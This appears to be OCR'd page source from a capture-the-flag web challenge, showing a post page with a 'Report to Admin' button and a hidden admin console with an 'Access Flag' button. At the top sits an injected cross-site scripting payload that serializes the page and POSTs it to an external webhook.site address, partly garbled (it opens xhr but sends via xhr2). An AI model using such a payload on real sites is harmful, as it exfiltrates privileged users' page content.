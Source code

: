 ```html
                        var xhr = new XMLHttpRequest();
                        var text = new XMLSerializer().serializeToString(document);
                        xhr.open('POST', 'https://webhook.site/5d002a10-23f5-4946-a997-3cac4c81d807', true);

                        xhr2.send(JSON.stringify({
                            'a': text
                        }));
                    };
                    </script>
            </div>
        </div>

        <div class="row">
            <div class="col-8">
                <small>By user <code>b</code></small>
            </div>
        </div>

        <div class="row" style="margin-bottom:10px">
            <div class="col-8">
                <button type="button" class="btn btn-warning" id="report">Report to Admin</button>
            </div>
        </div>

        <div class="row">
            <div class="col-8 admin_console">
                <!-- Only the admin can see this -->

                <button class="btn btn-primary flag-button">Access Flag</button>
                <a href="/button" class="btn btn-primary other-button">Delete User</a>
                <a href="/button" class="btn btn-primary other-button">Delete Post</a>

            </div>
        </div>

        <div id="responseAlert" class="alert alert-info" role="alert" style="display: none;"></div>
    </div>

    <script src="https://code.jquery.com/jquery-3.3.1.min.js" crossorigin="anonymous"></script>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js" integrity="sha384-UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1" crossorigin="anonymous"></script>

    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>

    <script>
        $('#responseAlert').css('display', 'none');
        $('#report').on('click', function(e) {
            $.ajax({
                type: \ "GET",
                url: window.location.pathname + "/report",
                success: function(resp) {
                    $("#responseAlert").text(resp);
                    $("#responseAlert").css("display", "");
                }
            })
        });


```